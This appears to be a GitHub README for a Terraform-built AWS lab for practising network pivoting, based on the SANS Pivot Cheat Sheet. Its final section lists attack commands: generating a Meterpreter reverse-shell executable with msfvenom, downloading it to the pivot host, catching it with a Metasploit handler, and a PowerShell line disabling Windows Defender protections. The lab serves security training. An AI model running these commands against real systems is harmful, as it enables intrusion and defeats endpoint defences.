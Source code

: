 # SANS Pivot Cheat Sheet Lab
This serves as a tool for cybersecurity enthusiasts to better understand pivoting through an environment. The central reference is the [SANS Pivot Cheat Sheet](https://www.sans.org/posters/pivot-cheat-sheet/). Some code used from Terraform's [HashiCorp Learn platform](https://learn.hashicorp.com/tutorials/terraform/cloud-init?in=terraform/provision).

## Dependencies
- [AWS IAM Credentials](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html) to interact with an AWS account
- [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/install-cliv2.html) installed
- [Terraform](https://www.terraform.io/downloads.html) installed

## Files
- Readme.md:    This file explains the repository
- main.tf:      Overall architecture of the Terraform project
- variables.tf: Contains values used in production
- output.tf:    Defines outputs requested from the build
- scripts/:     YAML config files for instances
- assets/:      Files copied to instances

## Steps
### Create Keys and Apply to YAML Configs
- `ssh-keygen -t rsa -C "your_email@example.com" -f ../tf-cloud-init`
- Look for `ssh_authorized_keys:` in the YAML files in `scripts/`. Replace the example public keys with the contents of your new `tf-cloud-init.pub`.

### Create the Range with Terraform
```
$ terraform init
[...]
Terraform has been successfully initialized!
[...]
$ terraform fmt
$ terraform validate
Success! The configuration is valid.
$ terraform apply
[...]
Do you want to perform these actions?
  Terraform will perform the actions described above.
  Only 'yes' will be accepted to approve.

  Enter a value: yes
[...]
Apply complete! Resources: 11 added, 0 changed, 0 destroyed.
$ terraform show #optional - to show assets and addresses again
```

### Optionally: Create a Windows Instance as Another Pivot
- From the AWS Console, Create Instance
- Pick a Windows AMI - maybe 2022 (ami-0f8a21019cb8e9c33)
- Next, then t2micro might be OK
- Next, then VPC from the Terraform output
- Set Auto-Assign IP to Enable
- Set Primary IP addresses to 10.1.2.2
- Next
- Next, then add tags like "Project:PivotPlay" and "Name:Windows-Pivot"
- Next, then pick the sg_pivot security group
- Review, then Launch
- Create a new key and save them
- Once the new instance is up, select it in the Instances view and Connect using the key you just created

### Optional Windows Steps
- Install chocolatey package manager: `Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://community.chocolatey.org/install.ps1'))`
- Install Nmap or other tools: `choco install nmap`

### Connect to the Attack Machine with the IP from the Previous Command
- `ssh attack@AttackIPHere -i ../tf-cloud-init`

### Maybe Perform some attacks!
- `attack $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=8888 -f exe -o helper.exe`
- `pivot PS> curl 10.1.1.1:8000/helper.exe -OutFile helper.exe`
- `attack $ msfconsole`
- `attack msf6> use exploit/multi/handler`
- `attack msf6> set payload windows/x64/meterpreter/reverse_tcp`
- `attack msf6> set LHOST eth0`
- `attack msf6> set LPORT 8888`
- `attack msf6> run`
- `pivot PS> Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend`
- `pivot PS> .\helper.exe`
